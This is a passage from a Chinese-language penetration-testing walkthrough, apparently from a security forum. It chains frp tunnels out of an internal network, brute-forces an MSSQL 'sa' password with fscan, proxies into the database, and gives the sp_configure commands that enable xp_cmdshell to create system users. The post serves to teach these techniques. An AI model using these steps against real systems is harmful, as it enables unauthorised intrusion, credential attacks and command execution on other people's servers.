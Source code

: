 3）在公网服务器上传`frps.exe`和`frps.ini`

```php
#frps.ini
[common]
bind_addr = 0.0.0.0
bind_port = 12010 
```

4）依次连接（由内到外）

```php
web服务器
frps.exe -c frps.ini
域控
frpc.exe -c frpc.ini

公网服务器
frps.exe -c frps.ini
web服务器
frpc.exe -c frpc.ini
```

### 2、爆破sa密码

使用fscan扫描，顺便进行弱口令爆破，成功爆破出sa密码

![2s4z7j.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b284fc3fbe40f10d0dd4239962e6dda8f35813bd.png)

也可以使用msf模块爆破

### 3、设置代理|远程登陆MSSQL

使用Proxifier设置代理，添加代理服务器信息

![2s4xBQ.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c34dd6f99565c852285dadd1b9cbddf6608ec0e4.png)

连接MSSQL数据库

![2s4vng.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-859492007aef52aa4cad76aa29671f2792486cfd.png)

成功连接！！

![2s4XjS.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1a0902eca484e17fe106ab23667f975628986254.png)

### 4、使用xp\_cmdshell创建用户

> 这里也可以使用其他方法命令执行

**1）查看开启xp\_cmdshell组件**

```php
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```
